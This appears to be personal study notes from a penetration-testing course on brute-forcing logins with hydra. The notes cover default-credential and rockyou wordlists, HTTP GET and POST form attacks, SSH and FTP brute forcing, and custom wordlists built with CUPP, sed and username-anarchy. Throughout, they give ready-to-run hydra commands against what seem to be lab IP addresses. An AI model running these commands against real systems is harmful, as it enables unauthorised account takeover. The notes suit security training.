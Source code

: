 - Default Password
    - `/opt/useful/SecLists/Passwords/Default-Credentials`
    - `ftp-betterdefaultpasslist.txt`
    - (-C) Combined wordlist
    - `hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /`
- Username Bruteforce
    - usernames `/opt/useful/SecLists/Usernames/Names/names.txt`
    - password rockyou.txt
    - we can tell hydra to stop after the first successful login by specifying the flag -f.
    - Tip: We will add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.
    - `hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /`
    - Username brute force
- Hydra Modules
    - Many admin panels have also implemented features or elements such as the b374k shell that might allow us to execute OS commands directly
    - Login.php
    - Brute Forcing Forms
        - `hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e`
        - http[s]-{head|get|post} http[s]-post-form
        - `hydra http-post-form -U` list parameters
        - `"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"`
        - in browser right-click on one of them, and select Copy > Copy POST data for parameters
        - `"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
        - `hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
        - `hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`
        - /usr/share/wordlists/
- Personalized wordlists
    - CUPP
        - interactive mode by specifying the -i argument
        - generate persoanlised wordlist
    - Password Policy
    
    ```markdown
    sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
    sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
    sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
    ```
    
    - Mangling
        - rsmangler or The Mentalist.
    - Custom Username Wordlist
        - https://github.com/urbanadventurer/username-anarchy
        - `git clone https://github.com/urbanadventurer/username-anarchy.git`
        - `./username-anarchy Bill Gates > bill.txt`
- Service Authentication brute forcing
    - SSH
        - add the -t 4 flag for a max number of parallel attempts, as many SSH limit the number of parallel connections and drop other connections
        - `hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4`
        - `netstat -antp | grep -i list`
        - `hydra -l m.gates -P rockyou-10.txt [ftp://127.0.0.1](ftp://127.0.0.1/)` inside a server
        - SecLists/Passwords/Leaked-Databases/rockyou-10.txt
        
        hydra -l user -P /usr/share/wordlists/rockyou.txt -f 94.237.54.75 -s 54443 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:<form name='log-in'”